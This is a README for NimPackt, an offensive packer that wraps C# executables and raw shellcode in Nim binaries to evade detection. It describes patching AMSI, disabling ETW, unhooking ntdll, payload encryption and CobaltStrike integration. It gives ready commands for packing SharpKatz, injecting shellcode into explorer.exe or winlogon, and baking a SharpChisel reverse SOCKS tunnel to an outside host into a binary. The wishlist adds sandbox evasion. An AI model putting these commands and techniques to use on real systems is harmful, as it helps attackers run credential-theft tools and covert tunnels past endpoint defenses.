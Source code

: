 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

*By Cas van Cooten (@chvancooten)*

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. Currently, it has the following features.

- Compiles to `exe` or `dll` file
- Two main execution methods: `execute-assembly` (takes a C# .exe) and `shinject` (takes a .bin with position-independent shellcode and executes it locally or in a remote process)
- Unhooking User-mode APIs (`Ntdll`) using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Disabling Event Tracing for Windows (ETW) (recommended for 'execute-assembly' method)
- Patching the Anti-Malware Scan Interface (AMSI) (recommended for 'execute-assembly' method)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to re-pack the binary into position-independent shellcode and launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a [ARGUMENTS]] [-r] [-t INJECTTARGET] [-E] [-f FILETYPE] [-32] [-H] [-nu] [-na] [-ne] [-d] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection (default "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default false, implies -r) (WARNING: VOLATILE)

other arguments:
  -f FILETYPE, --filetype FILETYPE
                        Filetype to compile ("exe" or "dll", default: "exe")
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) of executable by compiling it in GUI mode
  -nu, --nounhook       Do NOT unhook user-mode API hooks
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI) (recommended for shellcode)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW) (recommended for shellcode)
  -d, --debug           Enable debug mode (retains .nim source file in output folder).
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept commands at runtime, patching hooks, AMSI, and ETW while printing verbose messages on runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -v

# Pack Seatbelt as a DLL file with baked-in arguments (note: write to outfile because stdout is not available for execute-assembly DLLs)
python3 ./NimPackt.py -f dll -e execute-assembly -i Seatbelt.exe -a "-group=all -outputfile=c:\users\public\downloads\sb.txt"

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -na -ne -H -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to DLL file that executes in the local thread without patching AMSI or ETW (generally not needed for shellcode)
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -f dll -na -ne

# Pack raw shellcode to execute in a newly spawned Explorer thread (default), enabling verbose log messages in the compiled Nim binary
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -v

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe')
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -E -t "winlogon.exe"
```

Binaries are stored in the `output` subfolder of your installation directory. Generated `dll` files should be executed as follows:

```
rundll32 exampleShinjectNimPackt.dll,Update
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used with `exe` files. This probably relates to C# compiling options, need to investigate this further.
- Shellcode doesn't seem to return correctly over all injection methods. This is generally not a problem for local injection (since the Nim thread can die anyway), but for remote injections it will in most instances cause the process to crash once the shellcode returns. For a sacrificial process this might be okay, but for existing processes (-E) this is not acceptable. Need to look into making shellcode properly return.

## Wishlist

- Provide option to evade sandbox fingerprinting (e.g. by performing calculations for 10-30s)
- Stabilize shellcode execution
- Fix "hard parsing" of arguments passed as embedded arguments (e.g. `-a '-arg=value'` not being accepted by `argparse`)
- Patch ETW by patching the actual function call (after Shellycoat) using [this method](https://gist.github.com/S3cur3Th1sSh1t/0f44b1a12c7eceb8f7be10799ba5018d)